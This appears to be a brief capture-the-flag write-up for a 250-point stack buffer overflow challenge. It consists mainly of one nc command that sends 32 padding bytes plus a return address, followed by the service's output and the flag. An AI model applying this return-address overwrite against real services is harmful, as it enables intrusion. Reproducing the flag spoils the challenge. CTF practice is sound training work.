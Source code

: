 **Name**: Smash the Stack  
**Points**: 250  
**Instructions**: Exploit the vulnerable [smash-the-stack](https://challenges.runesec.com/static/322479ef49ce2bf103e538e898de875a/smash-the-stack) service running at challenges.runesec.com:29761.  
**Hint**: It's a secret!  

## Exploration
// TODO

## Exploitation
```
$ echo -e "`printf 'a%.0s' {1..32}`\x6b\x85\x04\x08" | nc challenges.runesec.com 29761
Enter some text:
You entered: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaak�
y0u f0unD the s3cr3t fuNcti0n!
flag{4a354d3c8d8779a9b57430c028e1a390}
```